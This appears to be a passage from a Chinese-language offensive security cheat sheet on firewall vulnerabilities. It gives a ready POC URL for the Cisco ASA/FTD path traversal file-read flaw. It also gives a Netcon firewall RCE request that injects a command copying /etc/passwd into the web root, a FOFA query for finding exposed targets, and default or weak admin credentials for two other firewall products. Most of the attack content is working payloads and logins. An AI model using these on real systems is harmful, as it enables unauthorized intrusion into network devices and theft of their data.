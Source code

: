     Cisco Adaptive Security Appliance (ASA) 防火墙设备以及 Cisco Firepower Threat Defense (FTD)设备的 WEB 管理界面存在未授权的目录穿越漏洞和远程任意文件读取漏洞，允许未经身份验证的远程攻击者进行目录遍历攻击并读取目标系统上的敏感文件，此漏洞不能用于获取对 ASA 或 FTD 系统文件或底层操作系统 (OS) 文件的访问，所以只能读取 web 系统目录的文件，比如 webvpn 的配置文件、书签、网络 cookies、部分网络内容和超文本传输协议网址等信息。

    该漏洞源于 ASA 和 FTD 的 web 服务接口在处理 HTTP 请求的 URL 时缺乏正确的输入验证，导致攻击者可以在目标设备上查看系统内的任意文件。

    注意：当设备配置了 WebVPN 或 AnyConnect 功能，启用 Web 服务时，才会受到该漏洞影响，但是该漏洞不能用于访问 ASA 或 FTD 系统文件或底层操作系统 (OS) 文件。

- 影响

    Cisco ASA 设备影响版本:
    - <9.6.1
    - 9.6 < 9.6.4.42
    - 9.71
    - 9.8 < 9.8.4.20
    - 9.9 < 9.9.2.74
    - 9.10 < 9.10.1.42
    - 9.12 < 9.12.3.12
    - 9.13 < 9.13.1.10
    - 9.14 < 9.14.1.10

- POC | Payload | exp
    ```
    /+CSCOT+/translation-table?type=mst&textdomain=/%2bCSCOE%2b/portal_inc.lua&default-language&lang=../
    ```

#### 网康下一代防火墙

> fofa: app="网康科技-下一代防火墙"

**网康下一代防火墙 RCE**
- POC | Payload | exp
    ```
    POST /directdata/direct/router HTTP/1.1

    {"action":"SSLVPN_Resource","method":"deleteImage","data":[{"data":["/var/www/html/d.txt;cat /etc/passwd >/var/www/html/test_test.txt"]}],"type":"rpc","tid":17,"f8839p7rqtj":"="}
    ```
    ```
    访问：https://x.x.x.x/test_test.txt
    ```

#### 启明星辰 天清汉马USG防火墙

**弱口令**
```
账号：useradmin
密码：venus.user
```

#### 佑友防火墙

**默认账号密码**
```
User: admin
Pass: hicomadmin
```
